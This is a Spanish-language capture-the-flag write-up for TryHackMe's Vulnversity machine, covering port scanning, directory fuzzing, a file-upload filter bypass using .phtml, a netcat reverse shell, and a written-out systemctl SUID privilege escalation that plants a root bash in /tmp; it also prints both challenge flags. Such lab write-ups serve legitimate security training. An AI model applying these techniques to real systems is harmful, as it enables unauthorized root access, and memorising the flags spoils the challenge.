 ## Máquina Vulnversity - Tryhackme

### 1. Reconocimiento
Comando Nmap para realizar escaneo de puertos:
- nmap -sS -n -Pn -p- --open --min-rate 5000 <ip-address> -oN <filename>
![Escaneo Inicial](./screenshots/recon.png)

* -sS: Stealth Scan para agilizar el escaneo
* -n: Evita el DNS.
* -Pn: Evita realizar el descubrimiento de host.
* -p-: Busca en los 65535 puertos.
* --open: Filtra solamente por puertos abiertos.
* --min-rate 5000: Trazar 5000 paquetes por segundo.
* <ip-address>: IP objetivo.
* -oN: Formato Nmap para guardar el output.
* <filename>: Nombre del output.

Puertos encontrados: 21(FTP), 22(SSH), 139(SMB), 445(SMB), 3128(SQUID-PROXY), 3333(HTTP).
Comando Nmap para buscar versión y servicio que corren para dichos puertos:
- nmap -sCV -p21,22,139,445,3128,3333 <ip-adress> -oN <filename>
![Scripts de reconocimiento con Nmap](./screenshots/recon2.png)

-sCV: Lanza los scripts más populares de reconocimiento y enumera las versiones de los servicios.
-p<ports>: Enumera los puertos encontrados.

[Evitar FTP y SMB] El script de reconocimiento no nos dice que podemos acceder a el servicio FTP ni tampoco a SMB, ya adelanto que no hay nada que podamos hacer con dichos servicios.
[Visitar la web] Vamos a la web "http://<ip-address>:3333/
![Reconocimiento de la web](./screenshots/recon3.png)
[Hacemos un reconocimiento de la web] Buscamos y analizamos posibles pistas que nos de para poder aprovecharnos de ello.
Usamos "Ctrl + U" para ver el ćodigo fuente en búsqueda de:
- Comentarios que nos otorgue credenciales, pistas, rutas, información sensible, etc.
Pero no encontramos nada interesante.

2.1 Fuzzing
Utilizamos la herramienta Gobuster para hacer fuerza bruta en busqueda de directorios ocultos en la web.
Comando utilizado:
gobuster dir -u http://10.201.64.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 200
![Fuerza bruta en rutas de la web](./screenshots/recon4.png)
* -u: URL objetivo.
* -w: Diccionario empleado para el ataque de fuerza bruta.
* --no-error: Para que no se muestren los errores en el output.
* -t 200: Para lanzar peticiones con 200 hilos y agilizar el proceso.

Directorios encontrados:
* /images
* /css
* /js
* /fonts
* /internal -> Potencial

[Visitamos /internal] Esta ruta permite la subida de archivos. Podemos intentar subir un código malicioso en php para ganar acceso al sistema.
![Ruta potencialmente vulnerable](./screenshots/recon5.png)
Un simple payload en php para ver si la máquina permite la extensión .php
![Payload](./screenshots/exploit1.png)
![Payload2](./screenshots/exploit2.png)
![Payload fallo](./screenshots/exploit3.png)
El servidor no permite la extensión .php por lo que debemos probar otro tipo de extensión que ejecute php, ya sea:
- php5
- phtml
etc

3. Explotación
[Usamos Burpsuite] para agilizar el proceso y estar probando manualmente cada extensión, podemos usar la herramienta Intruder de Burpsuite para cargar una serie de extensiones que se irán probando, y la respuesta del servidor podemos deducir que esa extensión es válida.
![Burpsuite](./screenshots/exploit4.png)
![Burpsuite proxy](./screenshots/exploit5.png)
Ahora enviamos la solicitud al servidor y la capturamos con Burpsuite
![Captura con Burpsuite](./screenshots/exploit6.png)
Lo mandamos al Intruder para realizar un ataque de tipo Sniper. Esto se utiliza para probar multiples combinaciones de palabras o caracteres.
En este caso, lo utilizamos para probar múltiples extensiones php.
[lanzamos el ataque]
Dependiendo la longitud de la respuesta podemos determinar si es válida o no. Vemos que extensión ".phtml" tiene mayor longitud que las demás.
Podemos cambiar la extensión y probar con .phtml para subir el script malicioso.
![Extension Sniper Attack](./screenshots/exploit8.png)
¡¡Exitoso!!
![Exitoso](./screenshots/exploit9.png)
Ahora nos dirigimos a la ruta /uploads para ver el archivo.


5. Escalar privilegios.
Nos ponemos en escucha con Netcat en nuestra máquina local en el puerto 443. Cuando hagamos click sobre el archivo, nos entablaremos una reverse shell con acceso al sistema objetivo.
![Netcat](./screenshots/exploit10.png)
![Reverse shell](./screenshots/exploit11.png)
Una vez dentro del sistema, ejecutamos comandos de enumeración del sistema.
- whoami: muestra el usuario actual
- id: muestra los grupos a los que pertenece el usuario actual
- lsb_release -a: información del sistema, kernel, etc.
- cat /etc/passwd: usuarios y servicios del sistema
- sudo -l: comandos que podemos ejecutar como root sin proporcionar contraseña
- find / -perm -4000 2>/dev/null: busca por archivos SUID en el sistema.

![Acceso al sistema](./screenshots/privesc1.png)
[/home] encontramos un usuario de nombre "bill". Dentro de este directorio, encontramos la flag -> 8bd7992fbe8a6ad22a63361004cfcedb

Debemos enumerar los archivos SUID los cuales podemos aprovecharnos de ello.
Utilizando el comando: find / -perm -4000 2>/dev/null
podemos buscar por binarios SUID.
Opcionalmente, podemos concatenar con: xargs ls -l
para ver propietario y permisos.
![Listar permisos SUID](./screenshots/privesc2.png)

Una ves realizado el comando, vemos los típicos binarios del sistema, también otro que podemos aprovecharnos como lo es:
systemctl
[Búsqueda en GTObins] en esta página, podemos encontrar como escalar privilegios con binarios con diferentes permisos. En este caso, SUID.
![Busqueda de binario](./screenshots/privesc3.png)


[SUID Payload] Vemos una serie de comandos que podemos ejecutar como root.
Lo primero que haremos será esto:
![Explotación](./screenshots/privesc4.png)

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

Lo que hace este payload es copiar la bash de root en el directorio /tmp/ con nombre de archivo "rootbash"
Luego, concatena otro comando "chmod +s" para otorgarle permisos SUID a la bash que nos permitirá ejecutar la bash como root.
Luego, guarda todo este "echo" en /tmp/root.service

Despues de hacer todo este payload.
![segundoc comando](./screenshots/privesc5.png)
Ejecutamos: /bin/systemctl link /tmp/root.service
![tercer comando](./screenshots/privesc6.png)
Una vez ejecutado, proseguimos con: /bin/systemctl enable --now /tmp/root.service

Cuando ejecutemos este comando, ya tendremos copiada la bash en /tmp con permiso SUID.
![Vemos la shell en /tmp](./screenshots/privesc7.png)
![Vemos la shell en /tmp](./screenshots/privesc8.png)

![Obtenemos privilegios root](./screenshots/privesc9.png)
Ejecutamos: /tmp/rootbash -p
para tener una shell como usuario root
whoami para verificar si somos root.
Máximos privilegios obtenidos!!

a58ff8579f0a9270368d33a9966c7fd5 -> flag root
